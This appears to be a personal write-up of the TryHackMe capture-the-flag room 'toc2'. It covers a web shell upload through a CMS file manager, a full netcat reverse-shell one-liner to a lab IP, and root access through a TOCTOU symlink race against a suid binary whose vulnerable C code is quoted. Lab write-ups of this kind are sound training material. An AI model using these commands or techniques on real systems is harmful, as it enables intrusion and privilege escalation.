 # toc2

https://tryhackme.com/room/toc2

"It's a setup... Can you get the flags in time?"

Interesting room! Sort of an education in a specific vulnerability.

1. Recon showed 80 and 22. On 80 was a holding page that gave some credentials, without specifying what those credentials were for.
2. `robots.txt` revealed a sub dir containing a cms setup file, and also in a comment gave the name of a local database.
3. Running the setup file, I created a new cms installation using the credentials from the home page and the database name when prompted for database details.
4. Logging in, under a File Manager, I could upload arbitary files. Uploading php web shells directly didn't seem to work (they were rendered as text/html), but I found uploading one as a text file then renaming it to php, before navigating to it's path directly worked. The direct navigation might have worked without renaming - by default, the file manager used some sort of module manager to load the files which might have broken the web shell. The webshell I used was this one: https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985.
5. With the web shell in place, I set up a reverse shell and got access as www-data (standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.205.196 4444 >/tmp/f` worked)
6. The only home folder was for a user named 'frank', where the user flag was readable. Also within was a note that gave the users password; this allowed me to drop my shell and ssh in normally.
7. Under the user's folder was a 'root_access' folder containing a suid binary called `readcreds` and its C code (`readcreds.c`), along with a root-only file called `root_password_backup`. The suid binary would, however, only read files the user had access to, suid be damned - running it against the root_password_backup failed.
8. The room talks about a linux file access race condition, where in the code if it uses the path to check access and then the path again to read, if you rename the file the path is pointing to between these checks you can bypass such access control. The video linked to is this one by the excellent LiveOverflow: https://www.youtube.com/watch?v=5g137gsB9Wk. In the video he uses a linux syscall to rapidly rename the files, but the C code here actually waits deliberately for a full second, so this was not necessary:

    ```c
    ...
    if (!access(argv[1],R_OK)) {
                sleep(1);
                file_data = open(argv[1], O_RDONLY);
        } else {
                fprintf(stderr, "Cannot open %s \n", argv[1]);
                exit(1);
        }
    ...
    ```

9. To get root I created a dummy file and created a symlink to it, e.g. `ln -s dummyfile myfile`, then in a separate window I readied (but didn't run yet!) `rm myfile && ln -s root_password_backup myfile`. Then in the first window, I started `readcreds myfile` and quickly switched over and ran the rename command. First try: got the root creds :)

Flag was in the root folder as normal, after switching to the root user with their creds. Interesting room.
